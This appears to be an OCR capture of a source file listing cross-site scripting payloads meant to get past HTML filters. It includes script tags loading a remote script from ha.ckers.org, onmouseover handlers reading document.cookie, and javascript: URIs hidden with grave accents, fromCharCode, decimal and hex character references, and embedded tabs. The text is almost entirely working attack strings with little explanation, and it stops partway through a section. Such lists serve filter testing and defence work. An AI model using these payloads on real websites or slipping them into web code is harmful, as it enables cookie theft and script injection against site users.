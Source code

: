 

# XSS Locator 2
'';!--"<XSS>=&{()}

```<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=JaVaScRiPt:alert('XSS')>```

# Grave Accent Obfuscation
```<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>```

# Malformed A Tags
# (not actually malformed)
```<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>```

# Malformed IMG Tags
```<IMG """><SCRIPT>alert("XSS")</SCRIPT>">```

# fromCharCode
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

# Default SRC tag to get past filters that check SRC domain
<IMG SRC=# onmouseover="alert('xxs')">

# Default SRC tag by leaving it empty
# nickg; Unable to replicate in FF,Safari,Chrome 2014-01-10
# <IMG SRC= onmouseover="alert('xxs')">

# Default SRC tag by leaving it out entirely
<IMG onmouseover="alert('xxs')">

# Decimal HTML character references
# obsolete?
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC="/" onerror=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>

# Decimal HTML character references without trailing semicolons
# obsolete
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC="/x" onerror=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

# Hexadecimal HTML character references without trailing semicolons
# obsolete form
 <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="/" onerror=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

# Embedded tab
# obsolete form
#<IMG SRC="jav   ascript:alert('XSS');">
<IMG SRC="/x" onerror="jav      ascript:alert('XSS');">

# Embedded escaped tab
```